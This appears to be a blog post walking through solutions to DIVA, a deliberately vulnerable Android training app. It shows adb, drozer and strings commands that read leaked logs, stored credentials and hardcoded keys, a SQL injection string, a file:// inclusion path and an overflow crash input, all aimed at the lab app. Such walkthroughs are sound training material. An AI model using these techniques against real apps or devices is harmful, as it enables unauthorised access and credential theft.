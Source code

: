 ```yaml
---
layout: post
title: 'Diva Android Solutions '
description: DIVA Android - Damn Insecure and vulnerable App for Android
date: '2019-07-30 12:03:36 +0530'
categories: Solutions
published: true
---
```


## Diva Android Solutions





![png]({{site.baseurl}}/pics/main.png)


## Insecure Logging

![png]({{site.baseurl}}/pics/insecure.png)

	Develophers use logs to debug their applications. Leaking information in logs is general situation and can be found any system. In android, we can read logs from adb logcat command. Then when we look logs we see our application leakes our credit card number in logs.
 
 
```bash
adb logcat >  out.txt
cat out.txt | grep diva
```

![png]({{site.baseurl}}/pics/insecure-2.png)

![png]({{site.baseurl}}/pics/insecure1code.png)
   When we look at the code the problematic part is that
   ```java 
	Log.e("diva-log", "Error while processing transaction with credit card: " + localEditText.getText().toString());
```
which stores credit card number.


## Hardcoding Issues 1
.hardcodemain
	Sometimes develophers uses critical information as hard-coded. In these example hardcoded part in apk files.
	To get apk  from our phone we use adb pull.
	Then we use bytecodeviewer to open it. When we goto  related class HardcodeActivity we see blow result. Vendor secret leaked. 

	.hardcode

	adb pull apk
	bytecodeviever
	vendorsecretkey


## Insecure Data Storage

	.insecure1main

	These time credentials stored in shared preferences which gives oppurtunity to store small information in xml files. It is stored in shared_prefs directory.

	adb shell
	cd data/data/jakhar.aseem.diva/
	ls
	cd shared_prefs/
	cat jakhar.aseem.diva_preferences.xml




	/data/data/jakhar.aseem.diva/shared_prefs
	jakhar.aseem.diva_preferences.xml
	<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
	<map>
	    <string name="user">adadd</string>
	    <string name="password">sdsdsdsd</string>
	</map>




## Insecure Data Storage 2

	Common method to store data is using databases. In these example data  stored in sqlite databses plaintext.
	To check database we download  by adb pull and open by sqlitebrowser.

```bash
	adb pull data/data/jakhar.aseem.diva/databases/ids2

	sqlitebrowser ids2
```


## Insecure Data Storage 3

	In these example, develpher tore data in tmp file which starts with uinfo.


```bash
	adb pull /data/data/jakhar.aseem.diva/uinfo-493535252tmp
	cat uinfo-493535252tmp
```

## Insecure Data Storage 4

	These time data stored in different directory. To Read file we go location of $EXTERNAL_STORAGE variable.
	```bash
	echo $EXTERNAL_STORAGE
	.uinfo.txt
```


## Input Validation Issues 1
	
	When working with databases valitating input so critical. I fit not done properly or not used properly sql injecttion vulnerability occurs. Below input returns  alll results n table.
```bash
	' or 1=1 --
```


## Input Validation Issues 2

	Also file  inclusion vulnerabilities can be found  in mobile application. In example we can read local files by fiving them.
```bash
	file:///data/data/jakhar.aseem.diva/lib/libdivajni.so
```
## Access Control Issues
	Activities opened by intents and sometimes these activities are not secured. So they can can be called directly.

	To do these we use drozer .To download and setup it you can use following link
	https://github.com/mwrlabs/drozer


```bash	
	activity intent 
	run app.activity.info  -a jakhar.aseem.diva
	jakhar.aseem.diva.APICredsActivity
	run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
```

## Access Control Issues 2

	TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2




## Access Control Issues 3
	Like activities, broviders can leake information. 
```bash	
	run app.provider.info -a jakhar.aseem.diva
	run scanner.provider.finduris -a jakhar.aseem.diva
	run scanner.provider.sqltables -a content://jakhar.aseem.diva.provider.notesprovider/notes/
	run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/
```


## Hardcoding Issues 2

	These time critical insormation is in libraries.

```bash	
adb pull lib/lib.so
strings
olsdfgad;lh
```


## Input Validation Issues 3

	Example includes overflow vulnerability.
	To crach app we try each time more character.
	When reached maximum app will crash.


```bash	pppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
```




